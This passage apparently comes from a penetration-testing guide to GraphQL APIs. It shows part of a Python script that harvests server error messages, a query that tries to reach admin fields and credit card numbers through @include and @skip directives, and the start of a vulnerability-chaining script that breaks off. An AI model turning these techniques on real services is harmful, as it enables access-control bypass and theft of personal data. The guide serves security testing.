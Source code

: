              print("-" * 50)
         
         # Save all collected errors to a file
         with open('graphql_errors.json', 'w') as f:
             json.dump(error_collection, f, indent=2)
         
         return error_collection
     
     # Example usage
     harvest_error_messages("https://target.com/graphql")
     ```

  2. **Exploiting GraphQL directives**:
     - Identify custom directives used by the application
     - Test for insecure implementation of standard directives
     - Try using directives in unauthorized contexts
     - Look for ways to bypass access controls with directives
     - Example query testing directive exploitation:
     ```graphql
     {
       # Test @include directive
       user(id: 1) {
         id
         username
         # Try to include admin fields conditionally
         adminAccess @include(if: true) {
           permissions
         }
         # Try to avoid rate limiting
         creditCardNumber @skip(if: false)
       }
     }
     ```

  3. **Combining multiple vulnerabilities**:
     - Map all identified vulnerabilities
     - Look for ways to chain vulnerabilities together
     - Use information disclosure to improve injection attacks
     - Combine CSRF with privilege escalation
     - Chain multiple queries to maximize impact
     - Example of chained exploitation:
     ```python
     import requests
     
     def chain_vulnerabilities(url):
         headers = {"Content-Type": "application/json"}
         
